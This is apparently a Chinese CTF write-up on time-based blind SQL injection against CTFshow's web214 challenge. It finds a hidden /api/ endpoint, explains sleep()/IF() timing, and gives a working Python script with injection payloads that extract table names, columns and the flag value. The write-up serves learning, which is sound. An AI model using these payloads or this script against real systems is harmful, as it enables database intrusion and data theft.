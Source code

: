 ```yaml
---
title: CTFshow web214 时间盲注
date: 2024-09-10 20:18:07
permalink: /pages/dfa81f/
sidebars: false
categories:
  - n日一题
author: 
  name: the0n3
  link: https://the0n3.top
---
```


在ctfshow做了sql注入题目，迷迷糊糊的，第一次接触sql时间盲注

::: tip
时间盲注，例如执行select *from ctfshow_user where id = sleep(10);时，页面明显缓慢的加载了10秒才响应，说明sql语句执行成功

使用IF(condition, true_value, false_value)，当条件为真时，会执行true_value，否则执行false_value

IF(1=1,sleep(10),0)，当1=1时，执行sleep(10)，通过观察页面是否明显的缓慢加载，判断sql的if语句是否为真来实现sql时间盲注
:::

在做CTFshow web 214 sql时间盲注这题，发现一些细节

看其他师傅wp做，首页bp抓包还是f12看网络请求都没有发现api接口，直接dirsearch扫描了

![time0](/medias/show-sql/time0.png)

抓`/api/`的报文还是什么都没有

![214](/medias/show-sql/214.png)

在网络里看到`select.js`，点进去可以看到

```js
layui.use('element', function(){
  var element = layui.element;
  element.on('tab(nav)', function(data){
    console.log(data);
  });
});

$.ajax({
      url:'api/',
      dataType:"json",
      type:'post',
      data:{
        ip:returnCitySN["cip"],
        debug:0
      }

    });
```

ajax通过post请求/api/接口，有ip，debug的参数

hackbar发包，ip随便填，没有限制，debug的会影响页面是否回显。发包后返回了原sql语句`select id from ctfshow_info where ip = $_POST[ip]`，如果ip=sleep(3)，页面会缓慢的加载3秒后才响应，说明sleep执行成功

```python
import requests
import time
url = 'http://08d7032b-e019-444d-aeb7-2ba24dd99c9e.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名(当前数据库)
        # payload = {
        #     'ip': f"1 or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆列
        # payload = {
        #     'ip': f"1 or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆值
        payload = {
            'ip': f"1 or if(ascii(substr((select group_concat(flaga) from ctfshow_flagx),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j
```

GET!
